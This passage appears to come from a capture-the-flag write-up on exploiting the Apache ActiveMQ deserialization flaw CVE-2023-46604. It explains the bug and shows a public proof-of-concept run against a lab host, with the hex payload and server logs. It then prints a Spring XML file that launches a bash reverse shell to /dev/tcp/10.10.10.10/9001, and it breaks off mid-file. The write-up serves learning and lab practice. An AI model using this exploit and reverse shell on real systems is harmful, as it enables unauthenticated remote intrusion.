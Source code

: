 The vulnerability is very easy to exploit and unauthenticated, getting the very rare top CVSS score of 10.0. ActiveMQ has a bunch of different versions, but in the 5.15 group, anything before 5.15.16 is vulnerable (including Broker’s 5.15.15).

### Understand Exploit

evkl1d has a [Python POC](https://github.com/evkl1d/CVE-2023-46604) on GitHub that’s useful for both understanding the vulnerability and exploiting it.

The Python code takes a target IP, port (default 61616), and “Spring XML Url”. It builds a payload which looks like a serialized object, as it starts with a header, then a series of objects that start with their length and then their value. It converts to hex, and send this as a message to ActiveMQ port.

The payload is exploiting a deserialization vulnerability in ActiveMQ, and using a gadget from the Spring to load a remote XML file, which has the ability to run programs.

For a much more detailed look at the exploit, [this medium post](https://deepkondah.medium.com/unpacking-the-apache-activemq-exploit-cve-2023-46604-92ed1c125b53) does a nice job, and pulls from original research from X1r0z ( [here](https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/?ref=deep-kondah.com) in Chinese).

### Run POC

To run the POC, I can start with a Python webserver and run the Python script:

```
oxdf@hacky$ python exploit.py -i 10.10.11.243 -u http://10.10.14.6/test.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.14.6/poc.xml

[*] Sending packet: 0000006c1f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e74657874010019687474703a2f2f31302e31302e31342e362f706f632e786d6c

```

There is a hit at my websertver (twice actually):

```
10.10.11.243 - - [08/Nov/2023 13:33:53] code 404, message File not found
10.10.11.243 - - [08/Nov/2023 13:33:53] "GET /test.xml HTTP/1.1" 404 -
10.10.11.243 - - [08/Nov/2023 13:34:26] code 404, message File not found
10.10.11.243 - - [08/Nov/2023 13:34:26] "GET /test.xml HTTP/1.1" 404 -

```

So I need to look at this XML file. The exploit comes with `poc.xml`:

```
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.10.10/9001 0&gt;&amp;1</value>
            </list>
```